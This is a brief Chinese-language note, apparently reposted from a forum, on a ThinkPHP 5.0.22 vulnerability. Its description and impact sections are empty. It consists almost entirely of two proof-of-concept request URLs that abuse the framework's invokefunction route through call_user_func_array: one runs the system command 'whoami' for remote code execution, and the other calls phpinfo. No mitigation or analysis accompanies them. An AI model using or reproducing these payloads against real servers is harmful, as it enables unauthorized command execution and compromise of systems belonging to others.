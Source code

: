 # Thinkphp 5.0.22

> 原文：[https://www.zhihuifly.com/t/topic/3155](https://www.zhihuifly.com/t/topic/3155)

# Thinkphp 5.0.22

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

### 1、poc

```
http://0-sec.org/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami 
```

### 2、poc

```
http://0-sec.org/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1 
```